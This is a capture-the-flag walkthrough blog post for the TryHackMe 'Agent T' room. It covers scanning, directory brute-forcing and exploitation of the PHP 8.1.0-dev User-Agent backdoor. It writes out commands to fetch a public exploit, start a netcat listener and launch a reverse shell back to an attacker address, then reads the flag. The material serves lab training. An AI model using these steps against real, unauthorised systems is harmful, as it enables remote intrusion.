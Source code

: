 ```yaml
---
layout: post
title: "Agent T - TryHackMe Walkthrough"
date: 2025-05-20
author: D3adshot
tags: [TryHackMe, Walkthrough, PHP, RCE, Privilege Escalation]
---
```


**Room:** Agent T (Challenge)  
**Difficulty:** Easy  
**Focus:** PHP 8.1.0-dev RCE, Enumeration, Privilege Escalation    
**Date:** 20 May 2025

---

## First Things First

### Recon & Enumeration

Ran a full Nmap scan on the target:

> - nmap -sC -sV target ip

**Open ports discovered:**

> - 22 (SSH)  
> - 80 (HTTP)  

Visiting the website revealed a basic **Agent Portal** (Dashboard) login page.

I ran a directory brute-force using Gobuster and found /info.php, which revealed the PHP version running: **PHP 8.1.0-dev**.

- gobuster dir -u http://<target ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -o gobuster.txt

---

## Exploitation

PHP 8.1.0-dev has a known backdoor from March 2021 allowing code execution via the User-Agent header.

I downloaded the exploit from Exploit-DB (ID 49933):

- [Exploit DB - PHP 8.1.0-dev Backdoor RCE](https://www.exploit-db.com/exploits/49933)

Then cloned the exploit repository:

- git clone https://github.com/flast101/php-8.1.0-dev-backdoor-rce.git  
- cd php-8.1.0-dev-backdoor-rce

Started a Netcat listener on a separate terminal:

- nc -lvnp 4444

> ## ⚠️ STOP!  
> Did you start the **Netcat listener on port 4444**?  
> If not, **do that before running the exploit!**

Run the Python exploit (make sure you have Python 3 installed):

- python3 --version  
- python3 revshell_php_8.1.0-dev.py http://10.10.X.X 10.8.X.X 4444

**IP Reference:**

- 10.10.X.X = Target (TryHackMe vulnerable machine)  
- 10.8.X.X = Attacker (Your attacking machine)

This gave me a reverse shell as www-data on my listener.

---

## Privilege Escalation

Looked for the flag (on the listening terminal):

find / -name flag.txt 2>/dev/null

Found it at:

- /flag.txt

Read the flag:

- cat /flag.txt



> 🔥 **Paste the flag in the challenge answer.** 🔥


---

## Tools Used

- Nmap  
- Gobuster  
- Netcat  
- Python  
- Exploit-DB  

---

## Lessons Learned

- Exposing dev versions like PHP 8.1.0-dev in production is dangerous.  
- PHPinfo pages can leak sensitive version data.  
- Always test custom headers like User-Agent for RCE.

---

> *Learn. Hack. Repeat.*
